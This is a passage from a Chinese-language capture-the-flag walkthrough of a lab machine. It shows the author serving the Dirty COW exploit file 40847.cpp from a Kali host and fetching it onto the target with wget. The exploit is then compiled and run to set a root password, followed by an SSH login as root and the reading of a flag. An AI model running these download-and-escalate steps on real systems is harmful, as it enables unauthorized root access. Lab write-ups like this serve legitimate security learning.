 ```
python2 -m SimpleHTTPServer 1234 
```

![image-20220228134318225](https://gitee.com/xxb667/img/raw/master/img/image-20220228134318225.png)

## 3.3 tiago用户下载40847.cpp文件

在刚才ssh登录的tiago用户的/tmp目录下下载40847.cpp文件：

```
wget http://192.168.81.131:1234/40847.cpp
#ip地址改为自己的kali的IP
```

![image-20220228134454847](https://gitee.com/xxb667/img/raw/master/img/image-20220228134454847.png)

对40847.cpp文件进行编译：

```
g++ -O2 -std=c++11 -pthread -o 40847 40847.cpp -lutil

./40847   #这个是-o 后面的那个名字，可自定义
```

解释：

- **-O2** ：表示编译器的优化选项，
- **-std=c++11**：表示按照c++ 2011标准来编译，
- **-pthread** ：是指利用到多线程时需要用到的库(我也不知道为啥要加上这个参数，希望评论区有大神能指出)
- **-o name** ：中name表示生成的文件的名字

![image-20220228135217088](https://gitee.com/xxb667/img/raw/master/img/image-20220228135217088.png)

## 3.4 获取root权限

获取到了root的密码：

```
dirtyCowFun
```

再利用ssh登录：

```
ssh root@192.168.81.139  
```

发现登陆后已经是root了

![image-20220228135624966](https://gitee.com/xxb667/img/raw/master/img/image-20220228135624966.png)

### 找到flag.txt文件

内容如下：

```
9740616875908d91ddcdaa8aea3af366
```
